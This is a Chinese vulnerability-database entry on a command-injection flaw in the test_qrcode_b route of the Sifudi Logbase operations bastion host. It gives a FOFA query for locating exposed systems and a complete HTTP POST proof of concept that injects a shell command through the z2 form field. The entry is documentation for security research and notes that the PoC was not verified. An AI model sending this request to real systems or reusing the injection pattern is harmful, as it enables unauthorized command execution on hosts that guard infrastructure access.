

# 思福迪Logbase运维安全管理 test_qrcode_b z2命令注入

## 条目说明

- 对象与具体问题：思福迪Logbase运维安全管理；test_qrcode_b z2命令注入
- 版本、配置及部署条件：版本未知；shell拼接环境
- 认证与权限前提：无Cookie示例，权限待核
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 结果只截图未视检，缺源码/修复与版本

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

思福迪运维安全管理系统是思福迪开发的一款运维安全管理堡垒机。思福迪运维安全管理系统 test_qrcode_b 路由存在命令执行漏洞。

### 漏洞影响

思福迪 运维安全管理系统

### 网络测绘

```
app="思福迪-LOGBASE"
```

### 漏洞复现

登陆页面


poc

```http
POST /bhost/test_qrcode_b HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Content-Length: 23
Connection: close
Content-Type: application/x-www-form-urlencoded
Referer: http://xxx.xxx.xxx.xxx
Accept-Encoding: gzip

z1=1&z2="|id;"&z3=bhost
```

> 请求长度说明：原资料 Content-Length 为 23；保留原始标头；其数值未据实际请求体重新计算或验证。




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
